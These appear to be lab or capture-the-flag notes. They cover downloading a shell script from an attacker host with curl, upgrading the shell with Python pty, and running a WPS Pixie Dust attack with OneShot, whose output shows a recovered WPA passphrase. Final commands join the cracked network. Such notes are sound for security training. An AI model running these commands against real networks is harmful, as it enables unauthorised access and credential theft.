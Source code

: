 Need 2 shells
`curl -O http://10.10.14.61/shell.sh`



Spawns as root
`python3 -c 'import pty;pty.spawn("/bin/bash");'`
As wlan0
`sudo iw dev wlan0 scan | grep SSID`
`sudo iw dev wlan0 connect 'plcrouter'` -> does not work
sudo iwlist wlan0 scan | grep ESSID

oneshot uses pixiedust for offline wifi
```bash
root@attica02:/tmp# sudo ./oneshot -i wlan0 -K
sudo ./oneshot -i wlan0 -K
[*] BSSID not specified (--bssid) — scanning for available networks
Network marks: Possibly vulnerable | WPS locked | Already stored
Network list:
#    BSSID              ESSID                     Sec.     PWR  WSC device name             WSC model
1)   02:00:00:00:01:00  plcrouter                 WPA2     -30                                
Select target (press Enter to refresh): 1
1
[*] Running wpa_supplicant...
[*] Trying pin 12345670...
[*] Scanning...
[*] Authenticating...
[+] Authenticated
[*] Associating with AP...
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response...
[*] Received WPS Message M1
[P] E-Nonce: c1cda6d509bac7c590956c0608a3feb0
[*] Building Message M2
[P] PKR: 0fa7a7018314e31387cecf49b8f4a0dab882796863d1dd444c2284bafeac07ab060dc281c80fa1f6af59495c02e43427e432949af7373473cb809190a8e324f4f3f289d9acb5053e7e074adcf6eaf257f61f5386be345e84a44839f5f1285f3de23950df00cf740fe349fd96b564ce9d46109ce8a1a86fa8a7926b1df1e9d3ced8d41ccdcccae7c606bc6fa8dffbaade94e45f55c789201f9d4b36b8682fd2081a1824835b75f06955be225ed90cdb1ac7181668a1fbfa7b2a42271c0f7f5305
[P] PKE: 9d31bd7f65bd75c0c0a3f03e98676d70f22c6b2aa0e8fdf60f1a892d16d70aebb559b6c1b1493d321264a4fa9ec19ebf7ae1cdb71b68c71568a3b56ca868a6273a7345adc6001768250d4fbe004f214f6f09c03e093a04e361f57b0b1f4124eb8b398874e5810b7da6bea52611216b5954a5ce948cc014562e1516ee76212b7a9e3f6dac3355b855378c1a8fca53ab1fa8081c508571ff6465e41826c57d70de2372286b86d188a8eae5264be45562ad8e635d3db961740fe574e7df88374fe6
[P] Authkey: 0e66c58b9bd88818bca5ba6699771b6a87c84c77cd5a83b3e54818963742e222
[*] Received WPS Message M3
[P] E-Hash1: e7ef5b80e2da74a84c156128ce1029b293f8db8f35f7200587e808dfe5bbc809
[P] E-Hash2: 749d9e1b1bbc3068d0d84a9317ee4b317a5e36e0c6e188df0df3992f5735ae0a
[*] Building Message M4
[*] Received WPS Message M5
[*] Building Message M6
[*] Received WPS Message M7
[+] WPS PIN: 12345670
[+] WPA PSK: NoWWEDoKnowWhaTisReal123!
[+] AP SSID: plcrouter

```

## OLD
generate new wpa.conf

`wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! | sudo tee /etc/wpa_supplicant/wpa-supplicant-wlan0.conf`

`sudo wpa_supplicant -B -c /etc/wpa_supplicant/wpa-supplicant-wlan0.conf -i wlan0`

`sudo wpa_supplicant -B -D wext,nl80211 -i wlan0 -c /etc/wpa_supplicant/wpa-supplicant-wlan0.conf`

These commands should work despite not working rn

## NEW

`wpa_passphrase plcrouter 'NoWWEDoKnowWhaTisReal123!' > config` on /tmp
`wpa_supplicant -B -c config -i wlan0`
`ifconfig wlan0 192.168.1.5 netmask 255.255.255.0`